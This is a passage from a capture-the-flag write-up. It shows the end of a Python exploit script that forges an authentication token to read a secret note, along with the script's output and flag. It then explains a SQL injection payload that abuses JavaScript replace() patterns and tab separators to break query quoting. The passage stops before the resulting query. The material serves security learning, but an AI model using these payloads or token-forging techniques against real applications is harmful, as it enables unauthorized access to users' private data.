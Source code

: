 ```python
                print(f"Success! Secret note: {secret}")
                print(f"Malicious token: {malicious_token}")
                return
            
            print("Failed to get secret note, trying again...")
            await asyncio.sleep(0.1)  # Small delay between attempts
        
        print("Failed to exploit after multiple attempts")

if __name__ == "__main__":
    asyncio.run(main()) 
```

Results:

```
python3 exploit.py
Attempting to register and login...
token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjhlNTc3MGMwLTIxM2MtNDI2NC1iMDc2LTlmYWNkMmY2MzBlYyIsInVzZXJuYW1lIjoiaGFja2VyX2MxMjkxODgxLTQzZDgtNGFmOC1hNDNjLTQ2MmJhZmRjNzA0ZiJ9.%2BrrHJQUzZABEwFs6E2h9p%2FkwZ%2F4yEmIqMGtWA%2BiH%2FgE%3D
Got valid token! Creating malicious token...
Success! Secret note: They fear the night, yet they do not understand its power. The fools bask in the daylight, blind to what lurks beyond the stars. But I see. I remember. And soon, they will too. The throne was never meant for the sun alone. The time will come. I must be patient. SK-CERT{1_w1ll_rul3_th3_n1ght_4nd_th3_d4y}
```

## Final Curse

Description

The last piece of information we need should be in the notes of one of the users. We need to find it.

*Solution*

This appears to be an SQL injection; well, I guess more of a JavaScript injection—the following payload does the magic:

```
$`\tOR\tTRUE\tUNION\t$`
```

It is because `\t` is not filtered and is a valid token separator in PostgreSQL. But the main part if breaking of the single quotes.

In JavaScript's `String.prototype.replace(searchValue, replaceValue)`, the `replaceValue` isn’t just verbatim text - any `$<something>` sequences inside it are special "replacement‑pattern" tokens. The ones that matter here are:

- `` $` ``  (dollar + backtick): the portion of the original string before the matched substring
- `$&` (dollar + ampersand): the matched substring itself
- `$'` (dollar + single‑quote): the portion after the match

Injecting that results in this query:
